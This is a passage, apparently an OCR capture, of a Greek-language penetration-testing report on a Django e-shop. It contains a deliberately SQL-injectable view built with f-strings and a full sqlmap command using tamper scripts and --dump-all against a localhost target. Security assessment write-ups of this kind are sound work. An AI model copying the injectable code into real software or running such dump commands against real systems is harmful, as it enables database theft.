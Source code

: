 ### 1.3 Μεθοδολογία Testing

```mermaid
graph LR
    A[Reconnaissance] --> B[Scanning]
    B --> C[Enumeration]
    C --> D[Vulnerability Analysis]
    D --> E[Exploitation]
    E --> F[Post-Exploitation]
    F --> G[Reporting]
    
    style A fill:#f9f,stroke:#333,stroke-width:2px
    style E fill:#f66,stroke:#333,stroke-width:2px
    style G fill:#6f6,stroke:#333,stroke-width:2px
```

---

## 2. Τεχνική Ανάλυση Ευπαθειών

### 2.1 SQL Injection - Καταστροφική Ευπάθεια

#### 2.1.1 Τεχνική Ανάλυση Root Cause

**Vulnerable Code Analysis** (`eshop/views.py:366-371`):

```python
# VULNERABLE CODE - DO NOT USE IN PRODUCTION
def catalog_view(request):
    search_query = request.GET.get('q', '')
    
    # ❌ CRITICAL: Direct string concatenation
    raw_query = f"""
    SELECT * FROM eshop_product 
    WHERE name LIKE '%%{search_query}%%'
    """
    
    # ❌ CRITICAL: No parameterization
    cursor.execute(raw_query)
```

**Root Cause Chain**:
1. Χρήση **f-strings** για SQL queries
2. Απουσία **parameterized queries**
3. Bypass του Django ORM security layer
4. Χρήση **raw cursor.execute()**

#### 2.1.2 Advanced Exploitation Techniques

**[ΟΔΗΓΙΕΣ SCREENSHOT SQL-ADV-1]**
```
Τίτλος: Advanced SQL Injection - Time-Based Blind
Εργαλείο: SQLMap με custom tamper scripts
Εντολή:
sqlmap -u "http://localhost:8000/catalog/?q=test" \
       --technique=T \
       --time-sec=5 \
       --tamper=space2comment,between \
       --dump-all \
       --threads=10

Screenshot που δείχνει:
- Database fingerprinting (SQLite version)
- Table enumeration via time delays
- Data extraction character by character
```